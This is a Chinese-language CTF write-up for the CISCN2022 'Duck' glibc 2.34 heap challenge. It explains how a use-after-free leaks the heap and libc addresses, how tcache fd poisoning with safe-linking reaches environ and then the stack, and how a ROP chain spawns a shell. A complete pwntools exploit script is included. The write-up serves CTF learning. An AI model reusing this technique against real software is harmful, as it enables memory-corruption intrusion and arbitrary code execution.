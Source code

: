 ### CISCN2022 Duck Write Up

该题目附件我已经上传到Github，有需要的可以下载，复现这题时，我是使用的NSSCTF提供的远程环境。

此题是一道libc2.34的题，libc2.34与2.33最大的不同就是移除了以往常用的malloc_hook，free_hook等hook函数，导致利用上较为困难，2.34与2.33一样，chunk的fd指针都采用了异或加密，在申请chunk时便会异或解密，所以当我们改写fd指针时，只需要将泄露出的堆的基地址右移12位后与当前地址异或即可。glibc中采用的异或加密的规则并不难：将堆的基地址右移12位后与当前地址异或。

这道题逆向难度并不大，通过IDA静态分析就可以很明显的看出，在free时存在UAF，所以可以很轻松的泄露堆的基地址（用于异或加密）与libc。

先多申请几个chunk（大于8个），把最后一个留下其余的全部释放，并用0号来泄露堆的基址，将泄露的地址左移12位即可得到堆的基地址。由于chunk的大小为0x110，所以在填满tcache后，剩下的不与top chunk相邻的chunk将放入unsorted bin中，这也是前面要申请大于8个chunk的原因，然后再通过UAF泄露main arena的地址，从而泄露libc。

泄露libc之后找到environ，通过UAF改写tcache的fd指针，并将其fd指针改为environ的地址，分配出去以后，由于environ保存的是当前进程的环境变量，这里面存放了栈上的地址，泄露出environ的值后并计算出edit的地址之后，再次修改fd指针，分配到edit返回地址之后写入ROP调用链，(**注意，由于是64位的程序，前六个参数通过寄存器传递，所以需要控制RDI寄存器来传入"/bin/sh\x00"作为system的参数**)即可getshell。(我用one_gadget去打没有成功)

***注：此处system若是无法使用，可改为execve，效果应该是一样的***

最终exp如下：

```python
from pwn import *
io=process('./pwn')
#io=remote('1.14.71.254',28045)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')

context(arch='amd64', os='linux')

def add():
    io.recvuntil('Choice: ')
    io.sendline('1')

def delete(index):
    io.recvuntil('Choice: ')
    io.sendline('2')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def show(index):
    io.recvuntil('Choice: ')
    io.sendline('3')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def edit(index,size,content):
    io.recvuntil('Choice: ')
    io.sendline('4')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))
    io.recvuntil('Size: \n')
    io.sendline(str(size))
    io.recvuntil('Content: \n')
    io.sendline(content)


for i in range(9):
    add()

for i in range(8):
    delete(i)  

show(7)

main_arena = u64(io.recv(6).ljust(8, b'\x00'))
main_arena = main_arena - 96

libc_addr= main_arena-libc.sym['main_arena']

print("libc_addr: " + hex(libc_addr))
print("main_arena: " + hex(main_arena))



show(0)
heap_base=u64(io.recv(5).ljust(8,b'\x00'))
heap_base=heap_base<<12
print("heap_base: "+hex(heap_base))

for i in range(5):
    add()

environ_addr=libc_addr+libc.sym['environ']

print("environ_addr: " + hex(environ_addr))

edit(1,0x10,p64(environ_addr^(heap_base>>12))+p64(0))

add()         
add()         

show(15)
stack_addr = u64(io.recvuntil(6).ljust(8, b'\x00'))
stack_addr = stack_addr - 0x168

print("stack_addr: "+ hex(stack_addr))

delete(9)
delete(10)
edit(10,0x10,p64(stack_addr^(heap_base>>12))+p64(0))

add()  
add()  

bin_sh_addr=libc_addr+next(libc.search(b'/bin/sh'))

sys_addr = libc_addr + libc.sym['system']
pop_rdi_ret = libc_addr + next(libc.search(asm('pop rdi;ret;')))

#pop_rdi_ret=0x1703

#one_gadget=libc_addr+0xda867

payload=p64(0)*3+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)

#payload=p64(0)*3+p64(one_gadget)

edit(17,0x30,payload)

io.interactive()
```

